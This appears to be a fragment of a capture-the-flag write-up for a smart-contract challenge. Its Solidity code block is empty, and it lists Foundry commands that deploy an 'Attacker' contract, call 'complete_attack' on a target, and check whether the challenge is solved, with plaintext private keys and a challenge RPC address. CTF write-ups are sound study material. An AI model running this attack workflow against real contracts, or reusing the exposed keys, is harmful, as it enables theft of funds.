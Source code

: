 ```solidity=
}

```

* deploy contract

    * `forge create src/Attacker.sol:Attacker --rpc-url http://159.65.20.166:32026/rpc --private-key "0x7930daf7ca98a69e54ff9d3e68edbb2ac204a2643a7bfbcd7f69cae82e2549b9" --value 25ether --constructor-args "0x5557a3c564A9D35F2c3CCc3bC53Fc2617b117f64"`
* Exploit
    * `cast send  --rpc-url http://159.65.20.166:32026/rpc --private-key "0x7930daf7ca98a69e54ff9d3e68edbb2ac204a2643a7bfbcd7f69cae82e2549b9" 0x7828aF85c4C0638419a9e0564Ec7942A197bf279 "complete_attack(address)" 0x57Eea081F89f3924F8c429D0D5f4b4B53317dA62`
* Check is solved
    * `cast call  --rpc-url http://159.65.20.166:32026/rpc --private-key "0xa01a048465d3fed6bb024f825a826dbc17f4af6110959a575d0c733f342e063d" 0x5557a3c564A9D35F2c3CCc3bC53Fc2617b117f64 "isSolved(address)"  0x57Eea081F89f3924F8c429D0D5f4b4B53317dA62`

